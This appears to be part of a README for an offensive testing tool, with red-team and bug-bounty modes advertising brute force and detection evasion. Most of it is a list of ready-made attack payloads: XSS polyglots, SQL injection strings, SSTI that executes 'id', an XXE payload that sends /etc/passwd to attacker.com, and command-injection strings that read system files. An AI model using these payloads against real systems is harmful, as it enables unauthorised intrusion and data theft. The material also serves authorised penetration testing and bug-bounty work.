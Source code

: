 ### **🎖️ --redteam (RED TEAM MODE)**
Focus on critical exploits and lateral movement:
- ✅ High-criticality exploits
- ✅ Advanced enumeration
- ✅ Intelligent brute force
- ✅ Detection evasion

### **🐛 --bugbounty (BUG BOUNTY MODE)**
Optimized for web vulnerabilities:
- ✅ Recent CVEs
- ✅ Web application vulnerabilities
- ✅ Bounty estimation
- ✅ Headless browser automation

## 🎯 **UNIVERSAL POLYGLOT PAYLOADS**

### **XSS Universal Payloads**
```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//>
'\"><img src=x onerror=alert(1)><!--
\"><svg/onload=alert(String.fromCharCode(88,83,83))>
<iframe src=javascript:alert('XSS')>
```

### **SQL Injection Multi-Database**
```sql
1' UNION SELECT NULL,NULL,NULL,version(),NULL,NULL,NULL,NULL-- -
1'||'1'='1' AND 1=1 AND '1'='1
1'; WAITFOR DELAY '00:00:05'; SELECT pg_sleep(5); BENCHMARK(5000000,MD5(1))-- -
' OR 1=1-- -
```

### **SSTI Multi-Engine Payloads**
```python
{{7*7}}${7*7}#{7*7}<%=7*7%>
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
${{<%[%'\"}}%\\x<script>alert(1)</script>
{{''.join(chr(x) for x in [99,97,116,32,47,101,116,99,47,112,97,115,115,119,100])}}
```

### **XXE with Automated Exfiltration**
```xml
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>
<?xml version="1.0"?><!DOCTYPE data [<!ENTITY % file SYSTEM "file:///etc/passwd"><!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">%eval;%exfiltrate;]><data></data>
```

### **RCE Multi-Platform**
```bash
# Linux/Unix
$(whoami)
`id`
;cat /etc/passwd;
|whoami

# Windows
&whoami&
|whoami
;type C:\Windows\win.ini;
```
